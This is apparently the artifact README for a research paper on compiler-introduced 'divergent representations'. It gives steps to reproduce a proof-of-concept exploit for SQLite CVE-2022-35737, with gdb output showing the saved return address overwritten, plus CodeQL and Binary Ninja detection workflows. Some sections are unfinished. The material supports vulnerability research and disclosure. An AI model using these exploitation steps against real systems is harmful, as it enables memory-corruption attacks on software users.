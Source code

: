 # Divergent Representations: Artifacts

### Requirements:

* Git
* Docker (Artifact 1 & 3)
* VSCode (Artifact 2)
* Binary Ninja (Artifact 3)

### Getting Started

Install git and clone this repository, ensuring that all submodules are
downloaded and initialized (example shown for Debian-based Linux systems):

```
sudo apt update && sudo apt install -y git
git clone TODO
```

### Artifact 1: Exploit CVE-2022-35737 using Divergent Representation

We provide a proof-of-concept exploit for SQLite CVE-2022-35737 and show that
it sets the saved return address of the vulnerable function only when the
vulnerable program contains a divergent representation. This supports our claim
that SQLite CVE-2022-35737 is enabled by a compiler-inserted divergent
representation.

#### Setup

Install Docker (example shown for Debian-based Linux systems):

```
sudo apt update && sudo apt install -y docker.io
```

Build and run the Docker container shown in the snippet below (approximately 5
minutes to build). The container contains exploit proof-of-concept
(`/poc/snprintf-control-pc`) and two builds of the vulnerable SQLite library
(`/sqlite3/build-optimized/.libs/libsqlite3.so` and
`/sqlite3/build-unoptimized/.libs/libsqlite3.so`).

The optimized build of `libsqlite3.so` contains a divergent representation that
the proof-of-concept exploit uses to overwrite the saved return address of the
vulnerable function (`sqlite3_str_vappendf`). The unoptimized build of
`libsqlite3.so` does not contain the divergent representation, so the
proof-of-concept exploit crashes as soon as the overwrite occurs.

```
$ docker build -t cve-2022-35737 publications/disclosures/cve-2022-35737/`
$ docker run --rm -it cve-2022-35737 /bin/bash`

```

#### Evaluation

Execute the exploit program by pre-loading the vulnerable library built WITHOUT
optimizations. The program will crash with a memory segmentation fault because
the stack buffer overflow writes 1GB of data to the program's 8MB stack,
resulting in an immediate crash:

```
# LD_PRELOAD=/sqlite3/build-unoptimized/.libs/libsqlite3.so /poc/snprintf-control-pc
Segmentation fault (core dumped)
```

Execute the exploit program by pre-loading the vulnerable library built WITH
optimizations. The program will crash with a stack smashing warning. The
divergent representation in the optimized build allows the exploit to overwrite
the saved return address (and stack canary) with attacker controlled values,
and then to reach the function return where the stack canary is checked (rather
than immediately crashing, as when the exploit is run against the unoptimized
build):

```
# LD_PRELOAD=/sqlite3/build-optimized/.libs/libsqlite3.so /poc/snprintf-control-pc
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

If desired, one can further confirm our result by using a debugger to set a
breakpoint in the vulnerable function (`sqlite3_str_vappendf`) at the function
return location (but before the stack canary is checked) and observing that,
when the breakpoint is hit in the optimized build, the saved return address has
been set to the attacker controlled value `0xdeadbeefdeadbeef`.

(Note that the breakpoint address may be different in each build of the
vulnerable library - the specific breakpoint address can be determinied by
first setting a breakpoint on the `sqlite3_str_vappendf` function and
disassembling it to determine the function return address.)

```
# gdb --args env LD_PRELOAD=/sqlite3/build-optimized/.libs/libsqlite3.so /poc/snprintf-control-pc
(gdb) break sqlite3_str_vappendf
(gdb) run
<snip>
Breakpoint 1, sqlite3_str_vappendf (pAccum=pAccum@entry=0x7fff24c495a0, fmt=0x556615f3a056 "'%!q'", ap=0x7fff24c495e0) at sqlite3.c:28173
28173	){
(gdb) disass
<snip>
   0x00007ff37b821f01 <+7265>:	mov    %ebp,%r9d
   0x00007ff37b821f04 <+7268>:	jmpq   0x7ff37b821da7 <sqlite3_str_vappendf+6919>
   0x00007ff37b821f09 <+7273>:	callq  0x7ff37b7fec80 <__stack_chk_fail@plt>
End of assembler dump.
(gdb) break *0x00007ff37b821f09
(gdb) continue
Continuing.

Breakpoint 2, 0x00007ff37b821f09 in sqlite3_str_vappendf (pAccum=0x7fff24c495a0, fmt=<optimized out>, ap=<optimized out>) at sqlite3.c:27504
27504	        return db->lookaside.szTrue;
(gdb) info frame
Stack level 0, frame at 0x7fff24c495a0:
 rip = 0x7ff37b821f09 in sqlite3_str_vappendf (sqlite3.c:27504); saved rip = 0xdeadbeefdeadbeef
 called by frame at 0x7fff24c495a8
 source language c.
 Arglist at 0x7fff24c49498, args: pAccum=0x7fff24c495a0, fmt=<optimized out>, ap=<optimized out>
 Locals at 0x7fff24c49498, Previous frame's sp is 0x7fff24c495a0
 Saved registers:
  rbx at 0x7fff24c49568, rbp at 0x7fff24c49570, r12 at 0x7fff24c49578, r13 at 0x7fff24c49580, r14 at 0x7fff24c49588, r15 at 0x7fff24c49590, rip at 0x7fff24c49598
(gdb) quit
```

Note that `saved rip = 0xdeadbeefdeadbeef`.

By contrast, in the unoptimized build, the program crashes before reaching the
equivalent breakpoint at the end of the function:

```
# gdb --args env LD_PRELOAD=/sqlite3/build-unoptimized/.libs/libsqlite3.so /poc/snprintf-control-pc
(gdb) break sqlite3_str_vappendf
(gdb) run
<snip>
Breakpoint 1, sqlite3_str_vappendf (pAccum=0x0, fmt=0x0, ap=0x0) at sqlite3.c:28173
28173	){
(gdb) disass
<snip>
   0x00007f9feb167701 <+9678>:	xor    %fs:0x28,%rax
   0x00007f9feb16770a <+9687>:	je     0x7f9feb167711 <sqlite3_str_vappendf+9694>
   0x00007f9feb16770c <+9689>:	callq  0x7f9feb15ec50 <__stack_chk_fail@plt>
   0x00007f9feb167711 <+9694>:	add    $0x1b8,%rsp
   0x00007f9feb167718 <+9701>:	pop    %rbx
   0x00007f9feb167719 <+9702>:	pop    %rbp
   0x00007f9feb16771a <+9703>:	retq
End of assembler dump.
(gdb) break *0x00007f9feb167701
(gdb) continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x00007f9feb16718a in sqlite3_str_vappendf (pAccum=0x7ffe9788aa80, fmt=0x556b975dc059 "q'", ap=0x7ffe9788aaf0) at sqlite3.c:28783
28783	            while( (escarg[i+1]&0xc0)==0x80 ){ i++; }
(gdb) quit
```

Source code for the exploit can be viewed in this repository at
`publications/disclosures/CVE-2022-35737/snprintf-control-pc.c` or in the
container at `/poc/snprintf-control-pc.c`.

### Artifact 2: Identify divergent representation patterns in source code

We provide CodeQL scripts to scan source code repositories for code patterns
that may result in divergent representations, when compiled. To scan many
repositories at scale, we use the newly released Multi-Repository Variant
Analysis feature provided by CodeQL and integrated into the CodeQL VSCode
plugin. We provide instructions to scan exactly the same 999 repositories that
we scanned, to validate our claim that code patterns that may result in
divergent representations are common in source code.

#### Setup

Install VSCode: https://code.visualstudio.com/docs/setup/setup-overview.

Open VSCode and install the CodeQL plugin for VSCode:
https://codeql.github.com/docs/codeql-for-visual-studio-code/setting-up-codeql-in-visual-studio-code/#starter-workspace.
Note that in the "Setting up a CodeQL Workspace" step, we recommend following
the "Using the starter workspace" option. All that this requires is creating
your own personal GitHub fork of the
https://github.com/github/vscode-codeql-starter/ repository. The CodeQL
documentation recommends cloning the starter repository locally, but we
recommend creating a GitHub fork in order to simplify later use of the
Multi-Repository Variant Analysis feature.

Create a new workspace in VSCode for this repository. To set up
Multi-Repository Variant Analysis, select the CodeQL plugin on the left pane of
VSCode. Under the "Variant Analysis Repositories" tile in the plugin view,
select "Set up controller repository" and provide the GitHub repository
identifier for your personal fork of the vscode-codeql-starter repository. This
allows the CodeQL plugin to submit GitHub actions on your behalf to run CodeQL
scans. Additional information can be found at:
https://codeql.github.com/docs/codeql-for-visual-studio-code/running-codeql-queries-at-scale-with-mrva/.

#### Evaluation

In this repository is a file named `codeql-scanlist.txt` containing the name of
all repositories that we scanned. To add them as a list for automated scanning
in CodeQL, follow the instructions to create a custom list of repositories:
https://codeql.github.com/docs/codeql-for-visual-studio-code/running-codeql-queries-at-scale-with-mrva/#creating-a-custom-list-of-repositories.
Edit the `databases.json` file by clicking on the `{}` icon (described in the
link above) and paste the contents of the `codeql-scanlist.txt` file into the
newly created list entry in the `repositories` list field. Alternatively, you
can copy the `databases.json` file provided in this repository over the local
`databases.json` file in your VSCode workspace.

To reproduce our analysis, select the custom repository list in the VSCode
CodeQL plugin. In the VSCode file browser, open the files
`divergent-representations/codeql-queries/divergentrepsfor.ql` and
`divergent-representations/codeql-queries/divergentrepswhile.ql`. In each
opened file, right click and select "CodeQL: Run Variant Analysis". This will
result in GitHub actions that execute the query code and download the results
for local analysis (approximately 15 minutes).

Our full results can be viewed at https://pastebin.com/QxCRXAp8, which are
produced by adding the results of `divergentrepsfor.ql` and
`divergentrepswhile.ql`. Note that CodeQL Multi-Repository Variant Analysis
only scans the code as it exists at the time of the query, so results may
differ when queries are run days apart.

### Artifact 3: Identify divergent representation patterns in compiled binaries

We provide a Binary Ninja plugin that identifies compiled binary code that may
be a divergent representation, and Docker containers to reproduce our build of
software that we scanned for divergent representations.

#### Setup

#### Evaluation

